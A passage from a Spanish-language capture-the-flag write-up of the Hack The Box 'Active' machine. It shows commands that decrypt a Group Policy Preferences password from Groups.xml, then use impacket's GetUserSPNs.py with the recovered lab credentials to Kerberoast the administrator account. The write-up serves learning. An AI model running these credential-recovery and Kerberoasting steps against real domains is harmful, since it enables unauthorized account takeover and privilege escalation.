 lo filtramos y copiamos:

```bash
cat Groups.xml | grep -oP \"ed.*?\" | tr -d \"\" | xclip -sel clip
```

ahora con la herramienta gpp-decrypt la vamos a decifrar:

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ACTIVE/images/10.png)

ahi tenemos la contraseña en texto claro, si probamos con crackmapexec parece ser valida pero no es administrador:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ACTIVE/images/11.png)

## ELEVACION DE PRIVILEGIOS

muy bien, tenemos unas credenciales validas y el kerberos abierto, algo que podemos probar el el kerberoasting ya que tenemos credenciales validas y un asreproast ya que podriamos listar usuarios.

vamos a probar el primero kerberoasting, para ello usaremos el script de impacket **GetUserSPNs.py**:

```bash
python3 GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ACTIVE/images/12.png)

parece que el usuario vulnerable es el administrador, esto quiere decir que podriamos obtener su contraseña y directamente escalar privilegios, obtengamos su ticket:

```bash
python3 GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request 
```

puede que les salga este error:
